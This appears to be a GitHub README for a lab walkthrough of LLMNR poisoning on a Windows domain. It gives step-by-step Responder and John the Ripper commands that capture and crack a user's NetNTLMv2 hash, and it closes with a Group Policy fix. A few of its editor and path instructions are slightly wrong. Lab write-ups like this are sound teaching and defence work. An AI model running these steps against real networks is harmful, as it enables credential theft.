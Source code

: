 # LLMNR-Poisoning-Attack
[![LLMNR-Poisoning-Attack](https://img.youtube.com/vi/zEDUxnYiLx0/maxresdefault.jpg)](https://www.youtube.com/watch?v=zEDUxnYiLx0)

# Getting Started

|  __Prerequisites:__  |                                                                                      |
| :-------- | :------------------------------------------------------------------------------------------------ |
| | Machine running Kali Linux                                                                                |
| |          Windows domain controller   |
| |          Windows client connected to the domain controller   |
| |          Connection to the LAN of the Windows machines   |

# Obtaining password hash

#### Step 1: Responder
- Open terminal and run the following command.
```sh
responder -I eth0 -v

#opens Responder on eth0 interface to listen for activity
```
#### Step 2: Windows client query
- Open "Run" application and run the following command.
```sh
\\unknown-folder

# since there is no "unknown-folder" located on this domain, the machine will send a multicast request to all devices on the LAN.
```
#### Step 3: Save hash to .txt file
![hash](https://github.com/S-Hill256/LLMNR-Poisoning-Attack/assets/138057919/696c32f1-2bb4-4f00-b98c-1f7fc84fc079)
- Highlight and copy the entire hash starting at "mscott::MYDOMAIN:
  - Open new terminal tab.
    -   Run the follwoing command.
```sh
vim scott.txt
# this open vim text editor, and allows us to create a .txt to store the hash
```
- Paste the hash into vim.
-   To save and exit your file.
```sh
press "esc"
#  exit insert mode.
press "shift + I"
type ":wq!"
# to save and exit
```
#### Step 4: Crack hash using John The Ripper
- Run the following command in terminal.
```sh
john --wordlist=usr/share/wordlists/rockyou.txt --format=netntlmv2 (.txt your made)
# runs the hash .txt file against the rockyou.txt wordlist
```

![ashw](https://github.com/S-Hill256/LLMNR-Poisoning-Attack/assets/138057919/a9ae155c-c880-42d2-9bb4-472c70369035)
- We see our Windows client login credentials.
  -  Pass: Password1 | username: mscott

# Patching

Open "Local Group Policy Editor"
- Go to Computer Configuration > Administrative Templates > Network > DNS Client > "Turn off multicast name resolution"
  - Click Enable, and Apply changes.
